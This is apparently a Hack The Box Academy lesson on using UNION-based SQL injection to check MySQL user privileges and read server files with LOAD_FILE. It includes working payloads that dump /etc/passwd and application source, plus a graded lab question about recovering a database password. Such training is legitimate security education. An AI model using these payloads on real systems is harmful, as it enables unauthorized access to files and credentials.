 
<h1>Reading Files</h1>
<hr/>
<p>In addition to gathering data from various tables and databases within the DBMS, a SQL Injection can also be leveraged to perform many other operations, such as reading and writing files on the server and even gaining remote code execution on the back-end server.</p>
<hr/>
<h2>Privileges</h2>
<p>Reading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation, as we will see. For example, in <code>MySQL</code>, the DB user must have the <code>FILE</code> privilege to load a file's content into a table and then dump data from that table and read files. So, let us start by gathering data about our user privileges within the database to decide whether we will read and/or write files to the back-end server.</p>
<h4>DB User</h4>
<p>First, we have to determine which user we are within the database. While we do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern DBMSes, as only DBA are given such privileges. The same applies to other common databases. If we do have DBA privileges, then it is much more probable that we have file-read privileges. If we do not, then we have to check our privileges to see what we can do. To be able to find our current DB user, we can use any of the following queries:</p>
<pre><code class="language-sql">SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
</code></pre>
<p>Our <code>UNION</code> injection payload will be as follows:</p>
<pre><code class="language-sql">cn' UNION SELECT 1, user(), 3, 4-- -
</code></pre>
<p>or:</p>
<pre><code class="language-sql">cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
</code></pre>
<p>Which tells us our current user, which in this case is <code>root</code>:</p>
<img alt="Search interface with a text box and button labeled 'Search'. Below is a table with columns: Port Code, Port City, and Port Volume. Entry includes root@localhost, 3, and 4" class="website-screenshot" data-url="http://SERVER_IP:PORT/search.php?port_code=cn' UNION SELECT 1, user(), 3, 4-- -" src="/storage/modules/33/db_user.jpg"/>
<p>This is very promising, as a root user is likely to be a DBA, which gives us many privileges.</p>
<h4>User Privileges</h4>
<p>Now that we know our user, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:</p>
<pre><code class="language-sql">SELECT super_priv FROM mysql.user
</code></pre>
<p>Once again, we can use the following payload with the above query:</p>
<pre><code class="language-sql">cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
</code></pre>
<p>If we had many users within the DBMS, we can add <code>WHERE user="root"</code> to only show privileges for our current user <code>root</code>:</p>
<pre><code class="language-sql">cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
</code></pre>
<img alt="Search interface with a text box and button labeled 'Search'. Below is a table with columns: Port Code, Port City, and Port Volume. Entry includes root@localhost, 3, and 4" class="website-screenshot" data-url="http://SERVER_IP:PORT/search.php?port_code=cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -" src="/storage/modules/33/root_privs.jpg"/>
<p>The query returns <code>Y</code>, which means <code>YES</code>, indicating superuser privileges. We can also dump other privileges we have directly from the schema, with the following query:</p>
<pre><code class="language-sql">cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
</code></pre>
<p>From here, we can add <code>WHERE grantee="'root'@'localhost'"</code> to only show our current user <code>root</code> privileges. Our payload would be:</p>
<pre><code class="language-sql">cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
</code></pre>
<p>And we see all of the possible privileges given to our current user:
<img alt="Search interface with a text box containing 'cn' UNION SELECT 1, grant' and a button labeled 'Search'. Below is a table with columns: Port Code, Port City, and Port Volume. Entries include 'root'@'localhost' with Port City values like SELECT, INSERT, UPDATE, and Port Volume 4" class="website-screenshot" data-url="http://SERVER_IP:PORT/search.php?port_code=cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -" src="/storage/modules/33/root_privs_2.jpg"/></p>
<p>We see that the <code>FILE</code> privilege is listed for our user, enabling us to read files and potentially even write files. Thus, we can proceed with attempting to read files.</p>
<hr/>
<h2>LOAD_FILE</h2>
<p>Now that we know we have enough privileges to read local system files, let us do that using the <code>LOAD_FILE()</code> function.  The <a href="https://mariadb.com/kb/en/load_file/">LOAD_FILE()</a> function can be used in MariaDB / MySQL to read data from files.  The function takes in just one argument, which is the file name. The following query is an example of how to read the <code>/etc/passwd</code> file:</p>
<pre><code class="language-sql">SELECT LOAD_FILE('/etc/passwd');
</code></pre>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0">Note: We will only be able to read the file if the OS user running MySQL has enough privileges to read it.</p>
</div>
</div>
<p>Similar to how we have been using a <code>UNION</code> injection, we can use the above query:</p>
<pre><code class="language-sql">cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
</code></pre>
<img alt="Search interface with a text box and button labeled 'Search'. Below is a table with columns: Port Code, Port City, and Port Volume. Entries include user information like root:x:0:0:root:/root:/bin/bash and daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin" class="website-screenshot" data-url="http://SERVER_IP:PORT/search.php?port_code=cn' UNION SELECT 1, LOAD_FILE('/etc/passwd'), 3, 4-- -" src="/storage/modules/33/load_file_sqli.png"/>
<p>We were able to successfully read the contents of the passwd file through the SQL injection. Unfortunately, this can be potentially used to leak the application source code as well.</p>
<hr/>
<h2>Another Example</h2>
<p>We know that the current page is <code>search.php</code>. The default Apache webroot is <code>/var/www/html</code>. Let us try reading the source code of the file at <code>/var/www/html/search.php</code>.</p>
<pre><code class="language-sql">cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
</code></pre>
<img alt="Search interface with a text box and button labeled 'Search'. Below is a table with columns: Port Code, Port City, and Port Volume." class="website-screenshot" data-url="http://SERVER_IP:PORT/search.php?port_code=cn' UNION SELECT 1, LOAD_FILE('/var/www/html/search.php'), 3, 4-- -" src="/storage/modules/33/load_file_search.png"/>
<p>However, the page ends up rendering the HTML code within the browser. The HTML source can be viewed by hitting <code>[Ctrl + U]</code>.</p>
<p><img alt="PHP code snippet for querying a database. It checks if 'port_code' is set, constructs a SQL query to select from 'ports' where code matches, executes the query, and fetches results" src="https://academy.hackthebox.com/storage/modules/33/load_file_source.png"/></p>
<p>The source code shows us the entire PHP code, which could be inspected further to find sensitive information like database connection credentials or find more vulnerabilities.</p>
<div class="mb-5 pwnbox-select-card"></div>
<div id="screen" style="height: 600px; border: 1px solid;">
<div class="screenPlaceholder">
<div class="instanceLoading" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Instance is starting...</div>
</div>
<div class="instanceTerminating" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Terminating instance...</div>
</div>
<div class="row instanceStart max-width-canvas">
<div class="col-4"></div>
<div class="col-4">
<button class="startInstanceBtn btn btn-success text-light btn-lg btn-block" style="margin-top: 270px;">Start Instance
                            </button>
<p class="text-center mt-2 font-size-13 font-secondary">
<span class="text-success spawnsLeft">
<i class="fal fa-infinity"></i>
</span> / 1 spawns left
                            </p>
</div>
<div class="col-4"></div>
</div>
</div>
</div>
<div class="row align-center justify-center my-4">
<div class="col-5 justify-start">
<button class="instance-button fullScreenBtn btn btn-light btn-sm float-left" style="display:none;" target="_blank"><i class="fad fa-expand text-success mr-1"></i>  Full Screen
                    </button>
<button class="instance-button terminateInstanceBtn btn btn-light btn-sm ml-2" style="display:none;"><i class="fad fa-times text-danger"></i>  Terminate
                    </button>
<button class="instance-button resetInstanceBtn btn btn-light btn-sm ml-1" style="display:none;"><i class="fad fa-sync text-warning mr-2"></i>  Reset
                    </button>
<div class="btn-group" role="group">
<button class="instance-button extendInstanceBtn btn btn-light btn-sm ml-1" style="display:none;cursor: default;">Life Left:
                            <span class="lifeLeft"></span>m
                        </button>
<button class="extendInstanceBtn extendInstanceBtnClicker btn btn-light btn-sm" data-title="Extend Life" data-toggle="tooltip" style="display:none;"><i class="fa fa-plus text-success"></i></button>
</div>
</div>
<div class="col-7 justify-end pt-2 pr-2 font-size-small text-right" id="statusText">Waiting to
                    start...
                </div>
</div>
<div class="d-inline-block mb-2 solutionSettings solutionSettingsOffsets" id="solutionsModuleSetting">
<div class="border border-secondary p-2 rounded">
<div class="custom-control custom-switch d-flex">
<input class="custom-control-input" disabled="" id="showSolutionsModuleSetting" type="checkbox"/>
<label class="custom-control-label font-size-14 font-weight-normal text-white" for="showSolutionsModuleSetting">
                                Enable step-by-step solutions for all questions
                            </label>
<span aria-hidden="true" class="cursor-pointer font-size-14 ml-1 mr-1 text-white" data-content="Access to this feature is exclusive to annual subscribers. To acquire an annual subscription, kindly proceed by clicking &lt;a href='/billing'&gt;here&lt;/a&gt;." data-html="true" data-placement="top" data-toggle="popover" data-trigger="click" title="Activate Solutions">
<i class="fa fa-info-circle font-size-12"></i>
</span>
<img alt="sparkles-icon-decoration" class="ml-2 w-auto sparkles-icon" height="20" src="/images/sparkles-solid.svg">
</img></div>
</div>
</div>
<div class="card" id="questionsDiv">
<div class="card-body">
<div class="row">
<div class="col-9">
<h4 class="card-title mt-0 font-size-medium">Questions</h4>
<p class="card-title-desc font-size-large font-size-15">Answer the question(s) below
                                to complete this Section and earn cubes!</p>
<span class="spawnTargetBtn spawn-target-text-clone d-none">Click here to spawn the target
                                system!</span>
<p class="card-title-desc font-size-large font-size-15 mb-0">
    Target(s): <span class="text-success">
<span class="target" style="cursor:pointer;">
<i class="fad fa-circle-notch fa-spin"></i>
<span class="spawnTargetBtn">Fetching status...</span>
</span>
</span>
<button class="resetTargetBtn btn btn-light btn-sm" data-title="Reset Target(s)" data-toggle="tooltip" style="cursor: pointer; display: none;">
<i class="fad fa-sync text-warning"></i>
</button>
<br/>
<div class="d-flex align-items-center targetLifeContainer">
<span class="targetLifeTimeContainer" style="display: none;">
            Life Left: <span class="targetLifeTime font-size-15">0</span> minute(s)
                    </span>
</div>
</p>
</div>
<div class="col-3 text-right float-right">
<button class="btn btn-light bg-color-blue-nav mt-2 w-100 d-flex align-items-center" data-target="#cheatSheetModal" data-toggle="modal">
<div><i class="fad fa-file-alt mr-2"></i></div>
<div class="text-center w-100 ml-1">Cheat Sheet</div>
</button>
</div>
</div>
<div>
<div>
<label class="module-question" for="34"><span class="badge badge-soft-dark font-size-14 mr-2">+ 1 <i class="fad fa-cube text-success"></i></span> We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.
                            </label>
<div class="row">
<div class="col-lg-12 mb-4">
<input class="form-control bg-color-blue-nav" color="green" id="answer34" maxlength="191" placeholder="Submit your answer here..." type="text"/>
</div>
<div class="d-flex justify-content-end w-100 mr-3">
<p class="mb-0 mr-3 mt-1 font-size-14 font-medium text-white" id="questionStreakPointsText-34">
                                        +10 Streak pts</p>
<div class="mb-4 mr-1 d-flex align-items-center">
<button class="btn btn-primary btn-block btnAnswer" data-question-id="34" id="btnAnswer34">
<div class="submit-button-text">
<i class="fad fa-flag-checkered mr-2"></i> Submit
                                            </div>
<div class="submit-button-loader mx-4 d-none">
<i class="fa fa-circle-notch fa-spin"></i>
</div>
</button>
</div>
<div class="mb-4 mr-1">
<button class="btn btn-outline-warning btn-block" data-target="#hint34" data-toggle="modal" id="hintBtn34"><i class="fad fa-life-ring mr-2"></i> Hint
                                        </button>
</div>
</div>
</div>
<div class="">
</div>
</div>
</div>
</div>
</div>
